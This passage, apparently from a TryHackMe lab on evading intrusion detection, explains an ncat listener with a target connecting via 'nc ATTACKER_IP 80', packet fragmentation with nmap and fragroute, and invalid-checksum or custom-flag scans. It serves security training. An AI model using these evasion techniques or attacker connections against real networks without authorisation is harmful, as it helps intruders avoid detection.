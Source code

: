 - On the attacker machine, to get Ncat to listen on TCP port 80, like a benign web server, you can use `ncat -lvnp 80`.
- On the target, connect to the listening server using `nc ATTACKER_IP 80`.

![img](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/b85668a256470594ea8a6310f68b5f86.png)

### Use Session Splicing (IP Packet Fragmentation)

Another approach possible in IPv4 is IP packet fragmentation,  i.e., session splicing. The assumption is that if you break the  packet(s) related to an attack into smaller packets, you will avoid  matching the IDS signatures. If the IDS is looking for a particular stream of bytes to  detect the malicious payload, divide your payload among multiple  packets. Unless the IDS reassembles the packets, the rule won’t be  triggered.

Nmap offers a few options to fragment packets. You can add:

- `-f` to set the data in the IP packet to 8 bytes.
- `-ff` to limit the data in the IP packet to 16 bytes at most.
- `--mtu SIZE` to provide a custom size for data carried within the IP packet. The size should be a multiple of 8.

Suppose you want to force all your packets to be fragmented into  specific sizes. In that case, you should consider using a program such  as [Fragroute](https://www.monkey.org/~dugsong/fragroute/). `fragroute` can be set to read a set of rules from a given configuration file and  applies them to incoming packets. For simple IP packet fragmentation, it would be enough to use a configuration file with `ip_frag SIZE` to fragment the IP data according to the provided size. The size should be a multiple of 8.

For example, you can create a configuration file `fragroute.conf` with one line, `ip_frag 16`, to fragment packets where IP data fragments don’t exceed 16 bytes. Then you would run the command `fragroute -f fragroute.conf HOST`. The host is the destination to which we would send the fragmented packets it.

### Sending Invalid Packets

Generally speaking, the response of systems to valid packets tends to be predictable. However, it can be unclear how systems would respond to invalid packets. For instance, an IDS/IPS might process an invalid  packet, while the target system might ignore it. The exact behavior  would require some experimentation or inside knowledge.

Nmap makes it possible to create invalid packets in a variety of  ways. In particular, two common options would be to scan the target  using packets that have:

- Invalid TCP/UDP checksum
- Invalid TCP flags

Nmap lets you send packets with a wrong TCP/UDP checksum using the option `--badsum`. An incorrect checksum indicates that the original packet has been altered somewhere across its path from the sending program.

Nmap also lets you send packets with custom TCP flags, including invalid ones. The option `--scanflags` lets you choose which flags you want to set.

- `URG` for Urgent
- `ACK` for Acknowledge
- `PSH` for Push
- `RST` for Reset
- `SYN` for Synchronize
- `FIN` for Finish
